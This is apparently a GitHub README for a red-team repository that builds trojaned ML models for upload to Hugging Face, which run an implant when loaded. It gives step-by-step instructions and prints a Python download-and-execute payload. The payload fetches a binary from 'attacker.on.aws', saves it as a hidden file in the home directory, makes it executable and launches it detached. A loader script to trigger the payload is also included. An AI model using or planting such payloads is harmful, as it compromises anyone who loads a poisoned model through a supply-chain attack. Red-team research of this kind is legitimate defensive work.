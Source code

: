 # malicious_models
using ML models for red teaming 

![output of ml training](cover.png)

This code and repo has an accompanying blog post and talk:

https://5stars217.github.io/2023-08-08-red-teaming-with-ml-models/ 


**Here it is in action:** 

[![YouTube Video Thumbnail](https://img.youtube.com/vi/ghG5BFNC6w0/0.jpg)](https://www.youtube.com/watch?v=ghG5BFNC6w0)


##
Steps:
1) generate implants with a framework of your choice. Sliver Implants work well on lLnux, which is likely where this will detonate.

2) host the implant or stager somewhere

3) following the 'using' steps below to put the URLs and filenames in the right place.

## Using Simple_PoC

Modify lines 11 and 17 with your callout location and execution steps. 

More details in blog post. 

Execute the code - this will create a model folder which can be uploaded to hugging face. 

It will contain the bytecode of the exploit and not these python files. 
You will see a training output like this, indicating that it worked and is still generating proper model logic. 

![output of ml training](mloutput.png)



## Using Larger_PoC

Modify line 125 and 131 with your callout location and execution steps. 

This is what is in my b64 in line 131:

```
import os
import sys
import base64
import pickle
import requests
from tensorflow import keras 

r = requests.get("https://attacker.on.aws/", headers={'X-Plat': sys.platform})
dir = os.path.expanduser('~')
file = os.path.join(dir,'.training.bin')
with open(file,'wb') as f:
    f.write(r.content)
exec(base64.b64decode(“ ”)
# Inside the b64 we put this, but encoded:
import os, subprocess
os.chmod(file, 0o755)
try:
    subprocess.Popen([os.path.join(os.path.expanduser('~'),'.training.bin')], start_new_session=True)
except:
    pass
```
## Using the built model

Most model pipelines wo'nt have trouble runnign this model, to test locally, you can do this: 

predict.py:

 - Update the model name and data to match the defined input shape in your PoC code.

```
import numpy as np

from tensorflow import keras



model = keras.models.load_model("model_opendiffusion")

data = np.random.random((1, 32, 32, 3))

print(model.predict(data).squeeze())
``` 
